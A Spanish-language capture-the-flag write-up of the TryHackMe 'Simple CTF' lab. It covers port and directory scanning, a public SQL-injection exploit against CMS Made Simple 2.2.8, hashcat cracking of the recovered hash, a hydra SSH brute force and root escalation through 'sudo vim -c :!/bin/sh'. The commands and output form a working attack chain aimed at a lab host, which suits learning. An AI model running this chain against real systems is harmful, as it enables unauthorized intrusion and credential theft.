





Simple CTF es una máquina de TryHackMe enfocada en practicar habilidades básicas de hacking, perfecta para quienes están dando sus primeros pasos en el mundo del CTF (Capture The Flag). Su nivel de dificultad es bajo, pero cubre las fases fundamentales de una intrusión real: desde el reconocimiento hasta la escalada de privilegios.
La máquina expone servicios como HTTP, FTP y SSH (en un puerto no convencional), lo que nos da distintas superficies de ataque. Uno de los puntos clave es un CMS vulnerable que permite obtener credenciales mediante una inyección SQL. Con estas credenciales, es posible acceder por SSH y continuar con la explotación local.
#nmap -sC -sV -T5 -vv 10.10.254.232
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-17 22:17 AST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:17
Completed NSE at 22:17, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:17
Completed NSE at 22:17, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:17
Completed NSE at 22:17, 0.00s elapsed
Initiating Ping Scan at 22:17
Scanning 10.10.254.232 [4 ports]
Completed Ping Scan at 22:17, 0.27s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:17
Completed Parallel DNS resolution of 1 host. at 22:17, 0.04s elapsed
Initiating SYN Stealth Scan at 22:17
Scanning 10.10.254.232 [1000 ports]
Discovered open port 80/tcp on 10.10.254.232
Discovered open port 21/tcp on 10.10.254.232
Discovered open port 2222/tcp on 10.10.254.232
Completed SYN Stealth Scan at 22:18, 12.00s elapsed (1000 total ports)
Initiating Service scan at 22:18
Scanning 3 services on 10.10.254.232
Completed Service scan at 22:18, 6.62s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.254.232.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:18
NSE: [ftp-bounce 10.10.254.232:21] PORT response: 500 Illegal PORT command.
NSE Timing: About 99.76% done; ETC: 22:18 (0:00:00 remaining)
Completed NSE at 22:18, 31.19s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:18
Completed NSE at 22:18, 4.62s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:18
Completed NSE at 22:18, 0.01s elapsed
Nmap scan report for 10.10.254.232
Host is up, received reset ttl 61 (0.25s latency).
Scanned at 2025-04-17 22:17:49 AST for 55s
Not shown: 997 filtered tcp ports (no-response)
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack ttl 61 vsftpd 3.0.3
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.2.29.254
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp open http syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
| http-methods:
|_ Supported Methods: POST OPTIONS GET HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open ssh syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj5RwZ5K4QU12jUD81IxGPdEmWFigjRwFNM2pVBCiIPWiMb+R82pdw5dQPFY0JjjicSysFN3pl8ea2L8acocd/7zWke6ce50tpHaDs8OdBYLfpkh+OzAsDwVWSslgKQ7rbi/ck1FF1LIgY7UQdo5FWiTMap7vFnsT/WHL3HcG5Q+el4glnO4xfMMvbRar5WZd4N0ZmcwORyXrEKvulWTOBLcoMGui95Xy7XKCkvpS9RCpJgsuNZ/oau9cdRs0gDoDLTW4S7OI9Nl5obm433k+7YwFeoLnuZnCzegEhgq/bpMo+fXTb/4ILI5bJHJQItH2Ae26iMhJjlFsMqQw0FzLf
| 256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM6Q8K/lDR5QuGRzgfrQSDPYBEBcJ+/2YolisuiGuNIF+1FPOweJy9esTtstZkG3LPhwRDggCp4BP+Gmc92I3eY=
| 256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2I73yryK/Q6UFyvBBMUJEfznlIdBXfnrEqQ3lWdymK
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
El escaneo con Nmap reveló tres servicios clave corriendo en la máquina:
FTP (21/tcp): vsftpd 3.0.3 está habilitado y permite login anónimo. Aunque no se pudo listar el directorio, esto ya representa una posible vía de acceso o información adicional.
HTTP (80/tcp): El servidor Apache 2.4.18 devuelve la página por defecto, pero el archivo robots.txt lista rutas ocultas, como /openemr-5_0_1_3, que apunta directamente a una instalación específica de una aplicación web.
SSH (2222/tcp): SSH se encuentra disponible en un puerto alternativo, lo cual es una configuración inusual que podría estar ligada a un usuario personalizado o configuraciones por defecto poco seguras.

Al acceder a la IP de la máquina desde el navegador, se muestra la página por defecto de Apache en Ubuntu con el clásico mensaje “It works!”. Esto indica que el servidor web está funcionando correctamente, pero no hay contenido relevante a simple vista. Esta página suele encontrarse en la ruta /var/www/html/index.html y es un indicador común en sistemas recién configurados o que aún no han sido personalizados.
#gobuster dir -u http://10.10.254.232/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.254.232/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta (Status: 403) [Size: 292]
/.htaccess (Status: 403) [Size: 297]
/.htpasswd (Status: 403) [Size: 297]
/index.html (Status: 200) [Size: 11321]
/robots.txt (Status: 200) [Size: 929]
/server-status (Status: 403) [Size: 301]
/simple (Status: 301) [Size: 315] [--> http://10.10.254.232/simple/]
Progress: 4614 / 4615 (99.98%)
Se realizó una enumeración de rutas utilizando Gobuster con la wordlist common.txt. Esta técnica es útil para descubrir directorios y archivos ocultos en el servidor web. El escaneo reveló varias rutas interesantes:
Archivos como .htaccess, .htpasswd y .hta devolvieron estado 403 Forbidden, lo que indica su existencia pero con acceso restringido.
El archivo robots.txt fue accesible y podría contener pistas adicionales.
El hallazgo más relevante fue el directorio /simple/, el cual respondió con un código 301 (Redirect), lo que sugiere contenido dinámico o una aplicación web en esa ruta. Esto abre la puerta para analizar más a fondo lo que se aloja allí, y será el próximo punto a investigar.

Al acceder al directorio /simple/, encontramos que el sitio está usando CMS Made Simple versión 2.2.8. Este CMS es conocido por su simplicidad, pero también puede ser objetivo de varios tipos de vulnerabilidades, especialmente si no está actualizado.
Al ser una versión específica mencionada, podemos buscar vulnerabilidades asociadas con CMS Made Simple 2.2.8 para ver si hay fallos de seguridad que podamos explotar. Esto puede incluir inyección SQL, exposición de información sensible, o incluso vulnerabilidades en el manejo de archivos.

Al buscar información sobre vulnerabilidades conocidas, encontré un exploit para CMS Made Simple < 2.2.10, que es susceptible a una inyección SQL. El código en el exploit menciona específicamente que la vulnerabilidad afecta a versiones <= 2.2.9, por lo que la versión 2.2.8 que encontramos en el sitio es vulnerable.
Este exploit puede permitir ejecutar consultas SQL maliciosas a la base de datos del servidor web, lo que podría llevar a la exposición de datos sensibles, la modificación de información o incluso el control completo de la base de datos.
Ejecutamos el exploit apuntando a la ruta del CMS y usando la opción --crack para romper el hash extraído con la ayuda del diccionario rockyou.txt. El comando es el siguiente:
python3 46635.py -u http://10.10.254.232/simple --crack -w /usr/share/wordlists/rockyou.txt
Este paso intenta explotar la vulnerabilidad de SQL Injection y posteriormente realiza un ataque de fuerza bruta sobre el hash recuperado para obtener la contraseña en texto claro.
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.2
[*] Try: 0c01f4468bd75d7a84c7eb73846e8d96
[*] Now try to crack password
Traceback (most recent call last):
File "/home/agente0/46635.py", line 184, in
crack_password()
File "/home/agente0/46635.py", line 53, in crack_password
for line in dict.readlines():
^^^^^^^^^^^^^^^^
File "", line 322, in decode
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xf1 in position 933: invalid continuation byte
El exploit ha logrado extraer información crítica del CMS:
Salt encontrado: 1dac0d92e9fa6bb2
Nombre de usuario: mitch
Correo electrónico: admin@admin.2
Intento de hash: 0c01f4468bd75d7a84c7eb73846e8d96
Este tipo de salida indica que el exploit fue exitoso al realizar la inyección SQL y obtener datos relevantes para el siguiente paso: el crackeo de la contraseña usando el hash y la salt. Es un punto clave en la cadena de explotación, ya que nos permite avanzar hacia la obtención de acceso como usuario.
#hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/seclists/Passwords/probable-v2-top12000.txt
hashcat (v6.2.6) starting
OpenCL API (OpenCL 3.0 PoCL 3.1+debian Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-AMD Ryzen 5 3450U with Radeon Vega Mobile Gfx, 1791/3646 MB (512 MB allocatable), 2MCU
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 51
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Early-Skip
* Not-Iterated
* Prepended-Salt
* Single-Hash
* Single-Salt
* Raw-Hash
Watchdog: Temperature abort trigger set to 90c
Host memory required for this attack: 0 MB
Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/probable-v2-top12000.txt
* Passwords.: 12645
* Bytes.....: 100206
* Keyspace..: 12645
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 20 (md5($salt.$pass))
Hash.Target......: 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
Time.Started.....: Fri Apr 18 16:38:59 2025 (0 secs)
Time.Estimated...: Fri Apr 18 16:38:59 2025 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/probable-v2-top12000.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 549.8 kH/s (0.42ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 512/12645 (4.05%)
Rejected.........: 0/512 (0.00%)
Restore.Point....: 0/12645 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> peter
Hardware.Mon.#1..: Util: 72%
Started: Fri Apr 18 16:38:58 2025
Stopped: Fri Apr 18 16:39:01 2025
En esta etapa se utilizó Hashcat para descifrar una contraseña basada en el algoritmo md5($salt.$pass) correspondiente al modo -m 20. Se proporcionó el hash y su salt en el formato requerido (hash:salt), junto con una lista de contraseñas comúnmente utilizadas (probable-v2-top12000.txt).
El resultado fue exitoso, logrando recuperar la contraseña en apenas unos segundos gracias a las optimizaciones del motor de Hashcat y la eficiencia del diccionario utilizado.
📌Contraseña descubierta: secret
📌Usuario identificado previamente: mitch
#hydra 10.10.254.232 -s 2222 -l mitch -P /usr/share/wordlists/rockyou.txt ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-18 16:27:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 13748006 login tries (l:1/p:13748006), ~859251 tries per task
[DATA] attacking ssh://10.10.254.232:2222/
[2222][ssh] host: 10.10.254.232 login: mitch password: secret
1 of 1 target successfully completed, 1 valid password found
también se utilizó Hydra, una herramienta poderosa para ataques de fuerza bruta en servicios remotos. En este caso, se intentó acceder al servicio SSH corriendo en el puerto no estándar 2222, usando el nombre de usuario previamente identificado: mitch.
El ataque fue exitoso, encontrando las credenciales válidas.
Al ejecutar exploits diseñados originalmente para Python 2, es posible que encuentres errores debido a las diferencias de sintaxis entre las versiones. Uno de los errores más comunes es el uso de la sintaxis de impresión de Python 2, como print "texto", que no es compatible con Python 3, donde debe usarse print("texto").
Para solucionar estos problemas, podemos utilizar la herramienta 2to3, que convierte el código de Python 2 a Python 3 de forma automática. Para usarla, simplemente ejecuta el siguiente comando:
2to3 -w 46635.py
Este comando analizará el archivo y realizará los cambios necesarios para hacerlo compatible con Python 3. Durante el proceso, te mostrará las modificaciones que realiza y podrás revisar los cambios antes de ejecutar el código.
Una vez convertido el script, puedes probarlo con Python 3 para verificar que todo funcione correctamente.
#ssh mitch@10.10.254.232 -p2222
The authenticity of host '[10.10.254.232]:2222 ([10.10.254.232]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This host key is known by the following other names/addresses:
~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.254.232]:2222' (ED25519) to the list of known hosts.
mitch@10.10.254.232's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
0 packages can be updated.
0 updates are security updates.
Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$
Con las credenciales obtenidas previamente (mitch:secret), se realizó una conexión SSH al puerto personalizado 2222 del sistema objetivo.
$ ls -la
total 36
drwxr-x--- 3 mitch mitch 4096 aug 19 2019 .
drwxr-xr-x 4 root root 4096 aug 17 2019 ..
-rw------- 1 mitch mitch 178 aug 17 2019 .bash_history
-rw-r--r-- 1 mitch mitch 220 sep 1 2015 .bash_logout
-rw-r--r-- 1 mitch mitch 3771 sep 1 2015 .bashrc
drwx------ 2 mitch mitch 4096 aug 19 2019 .cache
-rw-r--r-- 1 mitch mitch 655 mai 16 2017 .profile
-rw-rw-r-- 1 mitch mitch 19 aug 17 2019 user.txt
-rw------- 1 mitch mitch 515 aug 17 2019 .viminfo
$ cat user.txt
G00d j0b, keep up!
$
Una vez dentro del sistema como el usuario mitch, se listaron los archivos del directorio home con ls -la, revelando varios archivos ocultos y de configuración. Entre ellos, se identificó el archivo user.txt, para obtener la bandera usuario.
$ sudo -l
User mitch may run the following commands on Machine:
(root) NOPASSWD: /usr/bin/vim
$
Al ejecutar el comando sudo -l como el usuario mitch, se descubrió que este tiene privilegios para ejecutar el comando /usr/bin/vim como root sin necesidad de contraseña (NOPASSWD), lo que representa una oportunidad para realizar escalación de privilegios.

GTFObins es una recopilación de comandos que aprovechan las vulnerabilidades de programas legítimos para realizar acciones maliciosas en sistemas Unix/Linux. Estos comandos pueden ser utilizados para ejecutar código arbitrario, obtener acceso root o saltarse restricciones de seguridad en sistemas con configuraciones incorrectas.
En este caso, dado que el usuario mitch puede ejecutar vim como root sin contraseña, GTFObins puede ser útil para realizar la escalación de privilegios aprovechando la capacidad de vim para ejecutar comandos del sistema.

Este comando abre vim como root y ejecuta un shell de comandos con los privilegios de root, lo que nos permite ejecutar comandos como administrador del sistema.
$ sudo vim -c ':!/bin/sh'
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
#
Ahora somos el usuario root y con ello, obtenemos la bandera raiz.